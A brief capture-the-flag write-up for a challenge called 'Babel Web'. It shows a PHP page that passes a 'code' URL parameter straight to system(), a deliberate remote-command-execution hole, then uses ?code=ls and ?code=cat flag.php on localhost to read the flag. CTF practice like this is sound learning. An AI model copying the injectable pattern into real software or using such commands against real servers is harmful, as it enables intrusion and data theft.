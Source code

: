 # Babel Web


Looking into the source code : 

```html 
<html><head>
		<title>Bienvenue à Babel Web!</title>
	</head>	
	<body>
		<h1>Bienvenue à Babel Web!</h1>
		La page est en cours de développement, merci de revenir plus tard.
		<!-- <a href="?source=1">source</a> -->
	

</body></html>
```

We see a link to http://localhost:8000/?source=1
It shows us : 

```php

<?php
    if (isset($_GET['source'])) {
        @show_source(__FILE__);
    }  else if(isset($_GET['code'])) {
        print("<pre>");
        @system($_GET['code']);
        print("<pre>");
    } else {
?>
<html>
    <head>
        <title>Bienvenue à Babel Web!</title>
    </head>    
    <body>
        <h1>Bienvenue à Babel Web!</h1>
        La page est en cours de développement, merci de revenir plus tard.
        <!-- <a href="?source=1">source</a> -->
    </body>
</html>
<?php
    }
?>
```

It shows us that it executes anything in the variable code, so we try: 
http://localhost:8000/?code=ls

We can see two files: flag.php and index.php

But we have nothing by going to http://localhost:8000/flag.php 

We have the flag by doing : http://localhost:8000/?code=cat%20flag.php
and looking into the source code